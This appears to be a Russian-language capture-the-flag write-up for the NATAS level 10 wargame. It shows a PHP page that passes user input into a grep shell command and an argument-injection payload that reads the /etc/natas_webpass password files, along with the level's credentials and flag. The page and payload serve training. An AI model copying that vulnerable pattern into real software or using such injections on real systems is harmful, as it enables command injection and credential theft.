



# NATAS_10 WriteUp
:computer: Host: http://natas10.natas.labs.overthewire.org/  
:bust_in_silhouette: Usename: natas10  
:key: Password: D44EcsFkLxPIkAAKLosx8z3hxX1Z4MCE

:triangular_flag_on_post: Flag: 1KFqoJXi6hRaPluAmk8ESDW4fSysRoIg

- [NATAS\_10 WriteUp](#natas_10-writeup)
  - [Обзор веб-приложения](#обзор-веб-приложения)
  - [Решение](#решение)

## Обзор веб-приложения
<a name="Обзор_веб-приложения"></a> 
Веб-приложение выглядит следующим образом


Ввод слова ``test`` привёл к вот такой реакции 


Кнопка <kbd>**View sourcecode**</kbd> позволяет просмотреть исходный код страницы
```php
// HTML Code ...
<?
$key = "";
if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    if(preg_match('/[;|&]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i $key dictionary.txt");
    }
}
?>
// HTML Code ...
```

## Решение
<a name="Решение"></a>
В исходном коде веб-приложения видим фильтр символов `` [ ; | & ] ``, что не позволяет нам встроить свою команду на исполнение  


В данном случае мы вынуждены нарушить логику работы команды ``grep`` таким образом, чтобы она вывела нам флаг  

:space_invader: Payload: ``-r .* /etc/natas_webpass/ # ``  



Полученный флаг: 1KFqoJXi6hRaPluAmk8ESDW4fSysRoIg
